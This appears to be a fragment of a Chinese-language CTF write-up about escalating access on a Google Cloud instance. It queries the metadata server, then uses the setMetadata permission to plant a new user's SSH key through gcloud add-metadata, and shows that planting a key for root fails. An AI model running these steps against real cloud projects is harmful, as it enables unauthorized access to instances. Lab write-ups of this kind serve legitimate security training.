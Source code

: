 ```bash
> curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/name

vault-instance
```

可以通过 setMetadata 权限，然后改元数据来在该计算 vault-instance 实例中新建用户和写入 ssh 密钥

```bash
NEWUSER="tari"
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt
gcloud compute instances add-metadata vault-instance --metadata-from-file ssh-keys=meta.txt
```

- 注意这里直接用 root 用户是写不了的
    
    ```bash
    vaultuser@vault-instance:~$ NEWUSER="root"
    vaultuser@vault-instance:~$ ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""
    NEWKEY="$(cat ./key.pub)"
    echo "$NEWUSER:$NEWKEY" > ./meta.txt
    gcloud compute instances add-metadata vault-instance --metadata-from-file ssh-keys=meta.txt
    Generating public/private rsa key pair.
    Your identification has been saved in ./key
    Your public key has been saved in ./key.pub
    The key fingerprint is:
    SHA256:hoFzdhroa4nG9iGDsCcFC7Fd/YaTezg536PdXzDTAyA root
    The key's randomart image is:
    +---[RSA 3072]----+
    |.   ..   E .     |
    | + . o.   . .    |
    |+ . + =+.    .   |
    |.o . ++*o     .. |
    |o . . o*S     +..|
    |.= . o*..      +.|
    |+ O =  = .      .|
    | = = .  ..o.   . |
    |    .   .......  |
    +----[SHA256]-----+
    Did you mean zone [us-central1-a] for instance: [vault-instance] (Y/n)?
    
    Updated [https://www.googleapis.com/compute/v1/projects/ctfs-417807/zones/us-central1-a/instances/vault-instance].
    vaultuser@vault-instance:~$ ssh -i key root@127.0.0.1
    root@127.0.0.1: Permission denied (publickey).
    ```
    